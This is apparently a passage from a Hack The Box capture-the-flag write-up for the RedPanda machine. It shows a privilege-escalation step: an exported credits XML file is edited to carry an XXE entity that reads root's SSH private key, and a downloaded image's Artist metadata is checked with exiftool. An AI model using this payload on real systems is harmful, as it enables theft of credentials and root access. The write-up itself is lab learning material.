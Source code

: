 This line of code:`String xmlPath = "/credits/" + artist + "_creds.xml";` tells us how the filename should look like. But this line is a good indicator we should try an XXE injection as well. The variable artis is retrieved from the metadata within an image. We can edit metadata with the tool exiftool.
## Privilege escalation
Since we have already a XML file downloaded from the system earlier, we should try to adjust it and upload to the victim.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ mv ~/Downloads/export.xml .

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ cp export.xml export.bak                                                     

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ nano export.xml 

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ cat export.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author [<!ENTITY xxe SYSTEM 'file:///root/.ssh/id_rsa'>]>
<credits>
  <author>&xxe;</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>

```

Let's save an image for the new author and adjust the metadata.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ wget $ip:8080/img/smooch.jpg
--2024-05-20 11:55:10--  http://10.129.227.207:8080/img/smooch.jpg
Connecting to 10.129.227.207:8080... connected.
HTTP request sent, awaiting response... 200 
Length: 195963 (191K) [image/jpeg]
Saving to: ‘smooch.jpg’

smooch.jpg                                                 100%[========================================================================================================================================>] 191.37K  --.-KB/s    in 0.06s   

2024-05-20 11:55:10 (3.03 MB/s) - ‘smooch.jpg’ saved [195963/195963]

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ exiftool -Artist smooch.jpg
Artist                          : woodenk
```